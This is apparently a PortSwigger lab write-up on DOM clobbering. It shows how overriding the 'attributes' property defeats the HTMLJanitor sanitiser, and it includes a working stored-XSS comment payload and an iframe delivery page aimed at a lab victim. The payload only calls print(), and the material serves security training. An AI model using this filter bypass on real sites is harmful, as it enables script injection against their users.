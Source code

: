 # Clobbering DOM attributes to bypass HTML filters

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters), you'll learn: Clobbering DOM attributes to bypass HTML filters! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab uses the HTMLJanitor library, which is vulnerable to [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). To solve this lab, construct a vector that bypasses the filter and uses DOM clobbering to inject a vector that calls the `print()` function. You may need to use the exploit server in order to make your vector auto-execute in the victim's browser.

> Note:
>   
> The intended solution to this lab will not work in Firefox. We recommend using Chrome to complete this lab.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114212551.png)

In the home page, we can view other posts:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114212614.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114212626.png)

And we can leave some comments!

**View source page:**
```html
<h1>Comments</h1>
<span id='user-comments'>
<script src='resources/js/htmlJanitor.js'></script>
<script src='resources/js/loadCommentsWithHtmlJanitor.js'></script>
<script>loadComments('/post/comment')</script>
</span>
<hr>
<section class="add-comment">
    <h2>Leave a comment</h2>
    <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required type="hidden" name="csrf" value="9oej5v7jHWtGyQqNtz3SiOfqsLbdY1P5">
        <input required type="hidden" name="postId" value="3">
        <label>Comment:</label>
        <textarea required rows="12" cols="300" name="comment"></textarea>
                <label>Name:</label>
                <input required type="text" name="name">
                <label>Email:</label>
                <input required type="email" name="email">
                <label>Website:</label>
                <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
    </form>
</section>
```

As you can see, it's **loaded a JavaScript library called "HTMLJanitor", and a file `loadCommentsWithHtmlJanitor.js`.**

**`loadCommentsWithHtmlJanitor.js`:**
```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();
    let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let avatarImgElement = document.createElement("img");
            avatarImgElement.setAttribute("class", "avatar");
            avatarImgElement.setAttribute("src", comment.avatar ? comment.avatar : "/resources/images/avatarDefault.svg");

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + janitor.clean(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(avatarImgElement);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = janitor.clean(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

Basically what this JavaScript does is send a GET request to `/post/comment`, and then stores all the comments to a JSON data. After that, display all comments.

**Also, it has an interesting setting:**
```js
let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});
```

**This `janitor` object allows user to use `<input>`, `<form>`, `<i>`, `<b>`, and `<p>` elements!**

- In `<input>`, we can only use `name`, `type`, `value` attribute.
- In `<form>`, we can only use `id` attribute.
- In `<i>`, `<b>`, and `<p>`, all attributes will be stripped.

**Also, by studying the HTMLJanitor library source code, I found that it uses `attributes` property to filter HTML attributes:**
```js
// Sanitize attributes
for (var a = 0; a < node.attributes.length; a += 1) {
var attr = node.attributes[a];

if (shouldRejectAttr(attr, allowedAttrs, node)) {
  node.removeAttribute(attr.name);
  // Shift the array to continue looping.
  a = a - 1;
}
```

Armed with above information, we can **clobber the `attributes` property, which enables us to bypass client-side filters** that use it in their logic. Although the filter will enumerate the `attributes` property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, we will be able to inject malicious attributes that would normally be filtered out.

**Payload:**
```html
<form id=x tabindex=1 onfocus=print()><input id=attributes>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215054.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215115.png)

**We can trigger the stored XSS payload via appending `#x` in the URL:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215235.png)

Nice!

**Next, we need to write a HTML payload to trigger the stored XSS payload to the victim:**
```html
<html>
    <head>
        <title>Clobbering DOM attributes to bypass HTML filters</title>
    </head>
    <body>
        <iframe src="https://0ae6000704211000c0405e3200e50002.web-security-academy.net/post?postId=3" onload="setTimeout(()=>this.src=this.src+'#x', 3000)"></iframe>
    </body>
</html>
```

When the `<iframe>` element is loaded, wait for 3 seconds, and then append `#x` to the `src` attribute's property, which triggers the `print()` XSS payload.

Let's host it and deliver to victim!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215720.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215728.png)

Nice!

# What we've learned:

1. Clobbering DOM attributes to bypass HTML filters